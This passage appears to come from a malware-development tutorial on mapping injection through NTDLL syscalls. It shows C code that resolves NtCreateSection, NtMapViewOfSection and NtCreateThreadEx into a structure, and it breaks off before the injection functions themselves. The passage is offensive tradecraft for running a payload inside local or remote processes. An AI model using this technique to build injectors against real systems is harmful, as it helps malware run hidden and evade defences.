 The next step is to implement the mapping injection technique using the previously shown syscalls. Similarly to the previous module, it will be shown using three methods, starting with using `GetProcAddress` and `GetModuleHandle`.

A `Syscall` structure is created and initialized using `InitializeSyscallStruct`, which holds the addresses of the syscalls used, as shown below.


```
// a structure used to keep the syscalls used
typedef struct _Syscall {

	fnNtCreateSection       pNtCreateSection;
	fnNtMapViewOfSection    pNtMapViewOfSection;
	fnUnmapViewOfSection    pNtUnmapViewOfSection;
	fnNtClose               pNtClose;
	fnNtCreateThreadEx      pNtCreateThreadEx;

}Syscall, * PSyscall;



// function used to populate the input 'St' structure
BOOL InitializeSyscallStruct (OUT PSyscall St) {

	HMODULE hNtdll	= GetModuleHandle(L"NTDLL.DLL");
	if (!hNtdll) {
		printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	St->pNtCreateSection         = (fnNtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
	St->pNtMapViewOfSection      = (fnNtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
	St->pNtUnmapViewOfSection    = (fnUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
	St->pNtClose                 = (fnNtClose)GetProcAddress(hNtdll, "NtClose");
	St->pNtCreateThreadEx        = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");

 	// check if GetProcAddress missed a syscall
	if (St->pNtCreateSection == NULL || St->pNtMapViewOfSection == NULL || St->pNtUnmapViewOfSection == NULL || St->pNtClose == NULL || St->pNtCreateThreadEx == NULL)
		return FALSE;
	else
		return TRUE;
}


```
The `LocalMappingInjectionViaSyscalls` and `RemoteMappingInjectionViaSyscalls` functions are responsible for injecting the payload (`pPayload`) in the local process and remote process (`hProcess`), respectively. Both functions are shown below.
